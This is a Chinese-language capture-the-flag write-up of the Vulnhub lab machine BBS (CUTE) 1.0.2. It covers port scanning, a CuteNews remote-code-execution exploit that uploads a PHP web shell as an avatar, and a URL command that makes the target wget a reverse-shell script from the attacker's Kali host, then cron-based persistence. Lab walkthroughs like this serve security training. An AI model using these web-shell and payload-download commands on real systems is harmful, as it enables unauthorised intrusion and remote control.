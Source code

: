 ```yaml
---
layer: article
title: Vulnhub 567 BBS (CUTE)  1.0.2
tags: pentest vulnhub writeup
---
```


考点：

靶机链接：<https://www.vulnhub.com/entry/bbs-cute-102,567/>

## 环境配置


| 名称       | IP        |
| ---------- | --------- |
| Kali Linux | 10.0.2.15 |
| BBS (CUTE) | 10.0.2.11 |

## 初步打点

### 端口扫描

```bash
$ export rip=10.0.2.11
$ sudo nmap -v -A -p- $rip
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 04:d0:6e:c4:ba:4a:31:5a:6f:b3:ee:b8:1b:ed:5a:b7 (RSA)
|   256 24:b3:df:01:0b:ca:c2:ab:2e:e9:49:b0:58:08:6a:fa (ECDSA)
|_  256 6a:c4:35:6a:7a:1e:7e:51:85:5b:81:5c:7c:74:49:84 (ED25519)
80/tcp  open  http     Apache httpd 2.4.38 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-favicon: Unknown favicon MD5: 759585A56089DB516D1FBBBE5A8EEA57
|_http-server-header: Apache/2.4.38 (Debian)
88/tcp  open  http     nginx 1.14.2
|_http-title: 404 Not Found
|_http-server-header: nginx/1.14.2
110/tcp open  pop3     Courier pop3d
|_pop3-capabilities: LOGIN-DELAY(10) UTF8(USER) TOP STLS IMPLEMENTATION(Courier Mail Server) PIPELINING USER UIDL
| ssl-cert: Subject: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
| Subject Alternative Name: email:postmaster@example.com
| Issuer: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
| Public Key type: rsa
| Public Key bits: 3072
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-09-17T16:28:06
| Not valid after:  2021-09-17T16:28:06
| MD5:   5ee2 40c8 66d1 b327 71e6 085a f50b 7e28
|_SHA-1: 28a3 acc0 86a7 cd64 8f09 78fa 1792 7032 0ecc b154
995/tcp open  ssl/pop3 Courier pop3d
|_pop3-capabilities: LOGIN-DELAY(10) TOP UTF8(USER) IMPLEMENTATION(Courier Mail Server) PIPELINING USER UIDL
| ssl-cert: Subject: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
| Subject Alternative Name: email:postmaster@example.com
| Issuer: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
| Public Key type: rsa
| Public Key bits: 3072
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-09-17T16:28:06
| Not valid after:  2021-09-17T16:28:06
| MD5:   5ee2 40c8 66d1 b327 71e6 085a f50b 7e28
|_SHA-1: 28a3 acc0 86a7 cd64 8f09 78fa 1792 7032 0ecc b154

```

### WEB测试

#### 端口88

未发现有用信息

#### 端口80

[dirb](https://www.iihack.com/pages/tools/dirb.html)和[dirsearch](https://www.iihack.com/pages/tools/dirsearch.html)都发现了index.php

![](https://static.iihack.com/vulnhub/567/1.PNG)

### 漏洞发现

![](https://static.iihack.com/vulnhub/567/2.PNG)

查看RCE利用脚本，发现CuteNews目录需要手工去除

![](https://static.iihack.com/vulnhub/567/3.PNG)

使用新建的用户`ZOu0fykHPn`登录

## 获得权限

### 靶机测试

![](https://static.iihack.com/vulnhub/567/4.PNG)

头像处是上传的shell

访问http://10.0.2.11/uploads/avatar_ZOu0fykHPn_ZOu0fykHPn.php文件存在

![](https://static.iihack.com/vulnhub/567/5.PNG)

下载r444.php

```http
http://10.0.2.11/uploads/avatar_ZOu0fykHPn_ZOu0fykHPn.php?cmd=wget http://10.0.2.15/reverse/r444.php
```

访问<http://10.0.2.11/uploads/r444.php>

反弹shell成功

![](https://static.iihack.com/vulnhub/567/6.PNG)

## 提权

将反弹shell写入crontab

![](https://static.iihack.com/vulnhub/567/7.PNG)



![](https://static.iihack.com/vulnhub/567/8.PNG)

